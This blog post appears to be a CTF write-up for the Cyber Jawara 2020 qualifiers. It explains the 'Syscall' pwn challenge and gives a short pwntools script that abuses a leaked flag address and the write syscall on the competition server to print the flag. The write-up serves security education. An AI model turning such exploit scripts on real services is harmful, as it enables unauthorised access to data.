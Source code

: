 ```yaml
---           
layout: post
title:  "Cyber Jawara 2020 Quals "
date:   2020-09-18 
categories: ctf
description: Writeup Cyber Jawara 2020 Quals 
tags: ctf-writeup              
---
```


<iframe width="560" height="315" src="https://www.youtube.com/embed/lpi9Kmkf_Es" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

cyber jawara is a hacking competition on a national scale from Indonesia, 
in this article, I will explain some challenge that I solved during the competition 

# Syscall | Pwn

### Description

Syscall adalah salah satu pondasi yang penting dalam sistem operasi. Oleh karena itu, mengetahui tentang syscall adalah wajib dalam melakukan riset binary exploitation ataupun riset keamanan sistem operasi.

Berikut adalah layanan yang akan menjalankan syscall pada sistem Linux x86 64 bit.

nc pwn.cyber.jawara.systems 13371

### Solution

we were given a service that we have to input a syscall number and 5 arguments, 
since the program leak the flag address, so we can just using write syscall to print the flag.


{% highlight python %}
from pwn import *

r = remote("pwn.cyber.jawara.systems",13371)
r.recvuntil('Alamat memori flag: ')
flag = int(r.recv().split()[0].replace("\n","\x00"),16)
log.info("flag : " + str(flag))
r.sendline("1")
r.sendlineafter(":","1")
r.sendlineafter(":",str(flag))
r.sendlineafter(":","100")
r.sendline("x")
r.interactive()

{% endhighlight %}

<img src="/images/cj2020/syscall.png"/>
